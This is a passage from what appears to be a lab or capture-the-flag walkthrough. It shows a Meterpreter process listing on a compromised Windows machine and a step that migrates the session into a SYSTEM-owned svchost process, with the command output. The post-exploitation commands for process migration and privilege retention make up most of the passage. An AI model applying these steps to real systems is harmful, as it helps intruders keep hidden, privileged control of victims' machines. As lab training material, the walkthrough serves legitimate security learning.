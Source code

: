 ```
 1528  716   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1560  2404  powershell.exe        x86   0        NT AUTHORITY\SYSTEM           C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe
 1648  572   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 1664  716   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1680  716   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1880  716   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
 1988  716   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 2096  844   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 2196  572   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 2204  1352  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
 2404  2316  powershell.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 2592  716   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2664  716   vds.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
 2704  716   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 2828  716   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 3032  572   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe

meterpreter > 
```

#### #8 Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

we used `pid:484`
```
484   716   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
```

```
meterpreter > migrate 
Usage: migrate <<pid> | -P <pid> | -N <name>> [-t timeout]

Migrates the server instance to another process.
NOTE: Any open channels or other dynamic state will be lost.

meterpreter > migrate 484
[*] Migrating from 1560 to 484...
[*] Migration completed successfully.
```
